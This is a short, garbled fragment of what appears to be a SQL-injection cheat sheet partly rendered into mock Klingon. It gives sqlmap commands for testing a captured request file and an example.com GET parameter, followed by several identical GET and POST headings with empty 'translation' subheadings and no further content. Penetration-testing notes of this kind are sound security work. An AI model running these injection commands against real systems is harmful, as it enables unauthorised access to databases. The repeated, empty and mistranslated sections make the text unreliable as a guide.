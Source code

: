 Capture the request and create a req.txt file

## qo'noS

### Burp/ZAP capture

qo'noS request teywI' je req.txt file yInID.
```bash
sqlmap -r req.txt --current-user
```
### GET Request Injection

#### tlhIngan Hol Translation:

### GET Request Injection

#### tlhIngan Hol Translation:

### GET Request Injection

#### tlhIngan Hol Translation:

### GET Request Injection

#### tlhIngan Hol Translation:
```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```
### POST Request Injection

#### tlhIngan Hol Translation:

### POST Request Injection

#### tlhIngan Hol Translation:

### POST Request Injection

#### tlhIngan Hol Translation:

### POST Request Injection

#### tlhIngan Hol Translation:

### POST Request Injection

#### tlhIngan Hol Translation:
